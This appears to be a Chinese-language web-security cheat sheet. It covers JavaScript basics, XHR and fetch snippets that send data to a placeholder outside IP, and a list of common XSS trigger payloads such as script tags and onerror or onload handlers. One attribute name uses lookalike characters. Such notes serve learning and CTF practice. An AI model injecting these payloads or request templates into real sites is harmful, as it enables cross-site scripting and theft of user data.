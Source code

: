 console.log("xxx")：打印字符串。

eval：可用于执行多条 js 代码。

`eval("alert(1)")`

btoa：base64 编码。

atob：base64 解码。

```js
>> console.log(btoa("114514"))
MTE0NTE0
>> console.log(atob("MTE0NTE0"))
114514
```

使用 xhr 发送 GET 请求：

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", 'http://114.5.1.4/?a=1&b=2', true);
xhr.send(null)
```

使用 xhr 发送 POST 请求：

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://114.5.1.4/xxx', true);
xhr.send("foo=bar&ccc=ddd");
```

使用 fetch 发送 GET 请求：

```js
fetch('http://114.5.1.4/?a=1&b=2')
```

使用 fetch 发送 POST 请求：

```js
fetch('http://114.5.1.4',{
	 method: 'post',
	 body: 'a=1&b=2'
	 // method: 'no-cors'
})
```

### XSS payload

这些是常用的 XSS 触发器。

```html
<script>alert(1)</script>
<img src=xxxx οnerrοr=alert(1)>
<a href="javascript:alert(1);">test</a>
<svg/onload=alert(1)>
```
